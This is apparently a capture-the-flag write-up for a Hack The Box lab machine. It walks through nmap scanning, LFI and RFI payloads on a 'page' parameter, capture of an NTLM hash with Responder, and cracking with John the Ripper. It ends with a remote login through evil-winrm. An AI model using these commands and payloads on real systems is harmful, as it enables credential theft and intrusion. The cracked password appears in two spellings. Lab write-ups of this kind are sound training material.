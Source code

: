 <span style="color:cyan">**Question 1**</span>:When visiting the web service using the IP address, what is the domain that we are being redirected to?

Visiting the web service using the IP address, we are being redirected to unika.htb domain. 

    unika.htb

<span style="color:cyan">**Question 2**</span>: Which scripting language is being used on the server to generate webpages?

The scripting language used on the server to generate webpages can vary depending on the technology stack chosen by the developers. 

Running `Nmap`, the results showed that port 80 is active and that `Apache` is using PHP to generate the webpage

```
cmd : nmap -sV -sC -v IP address

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Thus, the scripting language used is PHP.

    php

<span style="color:cyan">**Question 3**</span>: What is the name of the URL parameter which is used to load different language versions of the webpage?

The name of the URL parameter used to load different language versions of the webpage is page.
 
    page

<span style="color:cyan">**Question 4**</span>: Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

The value that would be an example of exploiting a Local File Include (LFI) vulnerability is:

    ../../../../../../../../windows/system32/drivers/etc/hosts

This exploits the application by trying to include files from the server’s file system.

<span style="color:cyan">**Question 5**</span>: Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

    //10.10.14.6/somefile

This allows an attacker to include files from a remote server, potentially compromising the application.

<span style="color:cyan">**Question 6**</span>: What does NTLM stand for?

NTLM stands for "NT LAN Manager." It is a suite of Microsoft security protocols that provides authentication, integrity, and confidentiality to users

    NT LAN Manager

<span style="color:cyan">**Question 7**</span>: Which flag do we use in the Responder utility to specify the network interface?

In the Responder utility, the -I flag is used to specify the network interface.

    -I

<span style="color:cyan">**Question 8**</span>: There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.

`John the Ripper` is a widely used open-source password cracking tool that can perform various types of password attacks, including dictionary attacks, brute-force attacks, and cryptanalysis attacks

    John the ripper

<span style="color:cyan">**Question 9**</span>: What is the password for the administrator user?

To find the administrator password, I first run the command `ip a` to get a detailed list of available network interfaces:

```cmd
cmd: ip a

tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none 
    inet 10.10.15.180/23 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::11b2/64 scope global 
       valid_lft forever preferred_lft forever
    inet6 fe80::acd2:99f2:9340:e8f6/64 scope link stable-privacy proto kernel_ll 
       valid_lft forever preferred_lft forever
```

At this point, I use Responder to intercept the website using the network interface `tun0`:

```cmd
cmd: sudo responder -I tun0 -v
```

Now, taking advantage of the ability to change the language on the site `unika.htb`, I attempt an `RFI` attack, leveraging the output from `Responder`. I see the following in the terminal, which contains the hashed password:

```cmd
Administrator::RESPONDER:a0000050b7824dc2:7DF339DFFAED8C5DFA073D0D3A9D1622:010100000000000000E6E5E06F0BDB01178991186750514B0000000002000800450041005100530001001E00570049004E002D0046004200500042004500380054004E004700360044000400...
```

At this point, I use `John the Ripper` to try to recover the administrator's password: 

```cmd
cmd : sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Finally, I find the password:

    baddminton (Administrator)

<span style="color:cyan">**Question 10**</span>: We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

The answer to this question is already contained in the output of the nmap command run earlier, which shows that port 5985 is active.

<span style="color:cyan">**Question 11**</span>: Submit root flag

At this point, knowing the username and password, I can use `evil-winrm` to connect to the Windows machine, access it, and find the flag.

```cmd
cmd : sudo evil-winrm -u Administrator -p badminton -i 10.129.217.61
```
By navigating through the file system, I find the file flag.txt which contains the flag!